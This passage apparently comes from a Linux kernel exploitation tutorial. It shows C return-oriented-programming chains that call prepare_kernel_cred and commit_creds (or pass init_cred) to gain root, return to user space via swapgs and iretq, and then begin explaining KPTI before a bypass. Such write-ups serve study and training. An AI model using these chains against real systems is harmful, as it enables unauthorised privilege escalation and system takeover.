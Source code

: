 ```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

Here is my full [exploit code](./kROP/exploit.c). However, you can make you ROP chain more short by passing `init_cred` to `commit_creds` instead of using `prepare_kernel_cred` (note that not all linux version build with `init_cred` symbol). So the ROP chain will look like this:

```c
    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = init_cred; // Pass init_cred to commit_creds
    ROP[idx++] = commit_creds;
    ROP[idx++] = swapgs; // Change Kernel segment GS -> User segment GS
    ROP[idx++] = iretq;
    ROP[idx++] = user_rip;
    ROP[idx++] = user_cs;
    ROP[idx++] = user_rflags;
    ROP[idx++] = user_rsp;
    ROP[idx++] = user_ss;
```

## Exploit: Bypass KPTI (with SMEP, SMAP and no ASLR)

Kernel page-table isolation (KPTI or PTI, previously called KAISER) is a Linux kernel feature that mitigates the Meltdown security vulnerability (affecting mainly Intel’s x86 CPUs) and improves kernel hardening against attempts to bypass kernel address space layout randomization (KASLR). It works by better isolating user space and kernel space memory.

KPTI fixes these leaks by separating user-space and kernel-space page tables entirely. One set of page tables includes both kernel-space and user-space addresses same as before, but it is only used when the system is running in kernel mode. The second set of page tables for use in user mode contains a copy of user-space and a minimal set of kernel-space mappings that provides the information needed to enter or exit system calls, interrupts and exceptions.
